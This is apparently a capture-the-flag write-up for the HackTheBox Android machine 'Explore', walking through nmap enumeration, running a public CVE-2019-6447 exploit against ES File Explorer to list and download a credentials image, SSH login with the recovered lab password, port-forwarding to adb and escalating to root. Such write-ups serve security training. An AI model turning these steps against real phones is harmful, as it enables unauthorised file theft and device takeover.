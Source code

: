 ```yaml
---
title: "[HTB] Machine: Explore"
description: "[HTB] Machine: Explore"
date: 2023-08-05
menu:
  sidebar:
    name: "[HTB] Machine: Explore"
    identifier: htb-machine-Explore
    parent: htb-machines-linux
    weight: 10
hero: images/Explore.png
tags: ["HTB", "android", "adb", "es-file-explorer", "cve-2019-6447", "tunnel"]
---
```


# Explore
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.247 -T5                         
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 17:40 BST
Warning: 10.10.10.247 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.247 (10.10.10.247)
Host is up (0.12s latency).
Not shown: 65530 closed ports
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
5555/tcp  filtered freeciv
42135/tcp open     unknown
59777/tcp open     unknown
```
```
└─$ nmap -p2222,38925,42135,59777 -Pn 10.10.10.247 -sC -sV
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 17:32 BST
Nmap scan report for 10.10.10.247 (10.10.10.247)
Host is up (0.12s latency).

PORT      STATE  SERVICE VERSION
2222/tcp  open   ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
42135/tcp open   http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open   http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2222-TCP:V=7.94%I=7%D=8/6%Time=64CFCB14%P=x86_64-pc-linux-gnu%r(NUL
SF:L,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
Service Info: Device: phone

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.46 seconds
```
## Foothold/User
- `nmap` suggests `Minecraft server`
  - Googling tells it's [ES File Explorer File Manager](https://www.speedguide.net/port.php?port=59777) with `CVE-2019-6447`
  - We have a [github repo](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln)

```
└─$ python3 cve-2019-6447.py list                                                                     

######################
# Available Commands #
######################

listFiles: List all the files
listPics: List all the pictures
listVideos: List all the videos
listAudios: List all the audio files
listApps: List all the apps installed
listAppsSystem: List all the system apps
listAppsPhone: List all the phone apps
listAppsSdcard: List all the apk files in the sdcard
listAppsAll: List all the apps installed (system apps included)
getDeviceInfo: Get device info. Package name parameter is needed
appPull: Pull an app from the device
appLaunch: Launch an app. Package name parameter is needed
getAppThumbnail: Get the icon of an app. Package name parameter is needed
```

- While going through every command we notice `creds.jpg` file
```
└─$ python3 cve-2019-6447.py --cmd listPics --host 10.10.10.247   
[*] Executing command: listPics on 10.10.10.247
[*] Server responded with: 200

{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}
```
- Let's download and open it
```
└─$ python3 cve-2019-6447.py --get-file /storage/emulated/0/DCIM/creds.jpg --host 10.10.10.247
[*] Getting file: /storage/emulated/0/DCIM/creds.jpg
        from: 10.10.10.247
[*] Server responded with: 200
[*] Writing to file: creds.jpg
```

![](./images/1.png)

- We have creds `kristi:Kr1sT!5h@Rp3xPl0r3!`
  - Let's `ssh`

![](./images/2.png)

- If we look for a `user.txt`, we have nothing
  - `find . -name user.txt 2>/dev/null`
  - So I spent sometime looking for a flag, until I found it in `/storage/emulated/0`, where the pictures were stored

## Root
- Enumeration shows that now we have previously filtered port `5555`

```
:/storage/emulated/0 $ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program Name
tcp6       0      0 :::2222                 :::*                    LISTEN      4748/net.xnano.android.sshserver
tcp6       0      0 :::5555                 :::*                    LISTEN      -
tcp6       0      0 :::42135                :::*                    LISTEN      -
tcp6       0      0 ::ffff:10.10.10.2:35737 :::*                    LISTEN      -
tcp6       0      0 ::ffff:127.0.0.1:41985  :::*                    LISTEN      -
tcp6       0      0 :::59777                :::*                    LISTEN      -
udp        0      0 10.10.10.247:13022      1.0.0.1:53              ESTABLISHED -
udp        0      0 10.10.10.247:30449      1.1.1.1:53              ESTABLISHED -
udp        0      0 10.10.10.247:19481      1.0.0.1:53              ESTABLISHED -
udp        0      0 10.10.10.247:7334       1.1.1.1:53              ESTABLISHED -
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           -
udp        0      0 0.0.0.0:56977           0.0.0.0:*                           -
udp6       0      0 :::1900                 :::*                                -
udp6       0      0 :::5353                 :::*                                -
udp6       0      0 :::5353                 :::*                                -
udp6       0      0 :::5353                 :::*                                -
udp6       0      0 ::ffff:10.10.10.2:51524 :::*                                -
udp6       0      0 :::46781                :::*                                -

```
- So let's use port forwarding
```
└─$ ssh -L 5555:localhost:5555 kristi@10.10.10.247 -p 2222
Password authentication
(kristi@10.10.10.247) Password: 
:/ $ 
```
- I installed `adb` to interact with android devices

![](./images/3.png)

- Now we can access the device
  - If we check the user, we are still lov-priveleged one
  - Trying `su` gave me `root`

![](./images/4.png)
